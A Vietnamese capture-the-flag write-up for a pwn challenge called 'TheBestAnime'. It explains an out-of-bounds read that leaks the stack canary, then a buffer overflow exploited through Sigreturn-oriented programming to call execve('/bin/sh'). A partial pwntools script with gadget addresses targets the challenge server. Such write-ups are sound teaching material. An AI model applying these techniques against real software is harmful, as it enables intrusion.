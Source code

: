 ## TheBestAnime


- 1 bài mà mình bị overthinking (nghĩ rất nhiều cách exploit tuy nhiên thử hoài méo dc) 

- nhìn khá rắc rối vì file này là ```static``` , tuy nhiên chỉ cần chú ý những đoạn chính là đoạn ```scanf``` thôi
- scanf đàu tiên nhập 1 chuỗi vào v20 và dùng ```strcmp``` để check có giống với chuỗi ```Darling in the FRANXX``` không?  , nếu không thì thoát 
- tiếp theo sẽ đi vào hàm ```darling```

![image](https://hackmd.io/_uploads/HkR6L0sB1g.png)

- darling()

- ta sẽ chú ý đoạn nhập thôi vì mấy cái printf khá linh tinh

đoạn này ta thấy được 1 vấn đề , nó sẽ cho ta nhập 1 số và ép kiểu về ```usigned int``` và lần 1 sẽ là user , lần 2 là ```passcode``` , lúc in ra thì nó sẽ in v29[v28] -> có lỗi oob và ta sẽ leak đuọc gì đó từ đây

![image](https://hackmd.io/_uploads/HJr0wRoByg.png)

- quay về hàm main thì sẽ xảy ra ```bof``` và end chương trình


![image](https://hackmd.io/_uploads/S1H_YCirJx.png)

checksec : canary bật sẽ là 1 trở ngại để tận dụng bug ```bof``` , tuy nhiên ta được leak tùy ý thì ta sẽ leak được canary 
![image](https://hackmd.io/_uploads/rkkqKRiBJx.png)


-  à còn 1 vấn đè nữa là file này static -> không có libc để ret2libc , có 1 hướng mà mình nghĩ đến là dùng ```mprotect``` tuy nhiên thì nó sẽ bị lỗi gì đó nên mình dùng syscall ```Sigreturn``` để khai thác bài này
-  vậy flow khai thác sẽ như sau : 

bước 1 : leak canary -> BOF
bước 2 : dùng ```Sigreturn``` ghi /bin/sh vào bss -> return tiếp theo của nó sẽ là thực thi ```execve('/bin/sh',0,0)```

script : 

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./anmie',checksec=False)

#p = process()
p = remote('cha-thjcc.scint.org', 10101)
#gdb.attach(p,gdbscript='''
#           b*0x0000000000401CB2
#           ''')
syscall = 0x000000000041a2e6
pop_rsi = 0x000000000041fcf5
pop_rdi = 0x0000000000494253
mov_rdx_rbx = 0x0000000000432f5b
pop_rbx = 0x00000000004571e7
pop_rax = 0x0000000000434bbb
p.sendlineafter(b'anime > ',b'Darling in the FRANXX')
p.sendlineafter(b'user > ',b'14')
p.recvuntil(b'User ')
canary = p.recv(8)
p.sendlineafter(b'passcode > ',b'15')
p.recvuntil(b'code ')
```